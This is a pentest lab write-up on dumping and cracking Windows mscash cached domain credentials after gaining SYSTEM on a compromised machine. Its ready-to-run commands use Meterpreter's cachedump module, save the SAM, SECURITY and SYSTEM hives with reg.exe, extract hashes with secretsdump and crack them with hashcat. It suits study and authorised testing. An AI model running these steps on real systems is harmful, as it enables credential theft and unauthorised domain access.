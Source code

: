 # Dumping and Cracking mscash - Cached Domain Credentials

This lab focuses on dumping and cracking mscash hashes after SYSTEM level privileges has been obtained on a compromised machine.

`Mscash` is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Domain credentials are cached on a local system so that domain members can logon to the machine even if the DC is down. It's worth noting that mscash hash is not passable - i.e PTH attacks will not work.

## Execution

### Meterpreter

Note that in meterpreter session, hashdump only dumps the local SAM account hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
hashdump
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-59-09.png)

To dump cached domain credentials in mscash format, use a post exploitation module `cachedump`:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
getuid
getsystem
use post/windows/gather/cachedump
run
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-53-09.png)

### Secretsdump

Impacket's secrestdump tool allows us to dump all the credentials that are stored in registry hives SAM, SECURITY and SYSTEM, so firstly, we need to write those out:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-56-47.png)

Once the hives are retrieved, they can can be pulled back to kali linux to extract the hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-57-28.png)

## Cracking mscash / mscache with HashCat

To crack mscache with hashcat, it should be in the following format:

```csharp
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

Below shows the original output format from cachedump and the format accepted by hashcat:

```csharp
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-54-29.png)

Let's try cracking it with hashchat now:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-57-55.png)

## Where Are Domain Credentials Cached

This can be seen via regedit \(running with SYSTEM privileges\) in the following key:

```text
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

`NL$1..10` are the cached hashes for 10 previously logged users:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-03-15.png)

By nulling out the Data fields one could remove the credentials from cache. Once cached credentials are removed, if no DC is present, a user trying to authenticate to the system will see:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-10-00.png)

## References

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}

{% embed url="https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/" %}





